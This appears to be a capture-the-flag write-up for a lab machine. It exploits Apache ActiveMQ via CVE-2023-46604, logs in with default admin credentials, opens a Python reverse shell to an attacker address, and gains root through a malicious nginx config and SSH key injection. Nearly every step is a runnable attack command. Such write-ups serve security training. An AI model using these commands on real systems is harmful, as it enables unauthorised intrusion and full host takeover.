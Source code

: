 # Broker – ActiveMQ Exploitation and Privilege Escalation

**Target:** `broker` (CTF Room)
**Goal:** Exploit Apache ActiveMQ (CVE-2023-46604) for RCE, escalate privileges to root via misconfigured `nginx` sudo access.


## 1. Reconnaissance

Performed a full TCP port and service scan:

**nmap -p- -sV -T4 -oN full.nmap <target-ip>**

Open ports:

* **8161** – Apache ActiveMQ Web Console
* **61616** – OpenWire protocol (used by ActiveMQ clients)

---

## 2. Gaining Access via Apache ActiveMQ (RCE)

Checked for an exposed web interface:

**curl http\://target-ip:8161/**

Tested default login credentials:

**admin\:admin** → Success

Identified the version as vulnerable to **CVE-2023-46604**.

Cloned the exploit repository:

**git clone https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell.git**  
**cd CVE-2023-46604-ActiveMQ-RCE-pseudoshell**



Ran the exploit:

**python3 exploit.py -i <target-ip> -p 61616 -si <your-ip> -sp 8080**

> Result: Semi-interactive pseudo-shell as `activemq` user.


---

## 3. Reverse Shell Upgrade

Set up a listener:

**nc -lvnp 4444**

Triggered a reverse shell from the pseudo-shell:

**python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(\["/bin/bash"])'**

> Result: Full interactive shell as `activemq`.

---

## 4. Privilege Escalation via NGINX

Checked sudo permissions:

**sudo -l**

Found:

**(ALL : ALL) NOPASSWD: /usr/sbin/nginx**

Created a malicious NGINX configuration:

**/tmp/nginx\_pwn.conf**

```
user root;
worker_processes 1;
pid /tmp/nginx.pid;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8088;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Started NGINX as root:

**sudo /usr/sbin/nginx -c /tmp/nginx\_pwn.conf**

---

## 5. Gaining Root via SSH

Generated an SSH key:

**ssh-keygen -t rsa -f /tmp/root\_key -N ""**

Uploaded the public key to root's authorized\_keys:

**curl -X PUT --data-binary "@/tmp/root\_key.pub" [http://127.0.0.1:8088/root/.ssh/authorized\_keys](http://127.0.0.1:8088/root/.ssh/authorized_keys)**

Set permissions and connected:

**chmod 600 /tmp/root\_key**
**ssh -i /tmp/root\_key root@<target-ip>**

> Result: Root shell obtained.

---

## 🔢 Outcome

* **Initial Access:** RCE using CVE-2023-46604
* **Shell:** Reverse shell via Python
* **Privilege Escalation:** Sudo access to nginx and file upload trick
* **Final Access:** Root via SSH key injection

---
